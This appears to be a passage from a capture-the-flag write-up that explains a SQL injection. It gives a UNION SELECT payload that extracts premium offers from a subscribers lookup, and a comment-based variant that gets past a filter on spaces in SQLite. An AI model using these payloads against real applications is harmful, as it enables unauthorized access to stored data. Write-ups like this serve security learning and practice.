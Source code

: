 Here is the injection I came up with

```sql
UNION SELECT ID, '1', offer, '1', false, 0 FROM offers where is_premium = 1 --
```

We follow the table format to subscriber when doing union select. So it's in the order
id, number, name, auth_code, is_premium, and registered_at.

Union select is very flexible and allows us to define values that are not from the offers table, such as number, auth_code. I used false and 0 at end to shorten the exploit.

In the end the query sent to the database will be

```sql
SELECT * FROM subscribers WHERE auth_code = '' UNION SELECT ID, '1', offer, '1', false, 0 FROM offers where is_premium = 1 -- '
```

Since it finds no subscribers with empty auth_code, it will use the element from union select. 

## Extra

Because I missed a step earlier, I thought the payload had to be without spaces.
So this is useful tip if you are restricted.

It's possible to use C-style comments instead of spaces, and for sqlite that is ``/**/``

So the final payload i used was

```
STOP '/**/union/**/select/**/id,/**/'1',/**/offer,/**/'1',/**/false,/**/0/**/from/**/offers/**/where/**/is_premium/**/=/**/1/**/--
```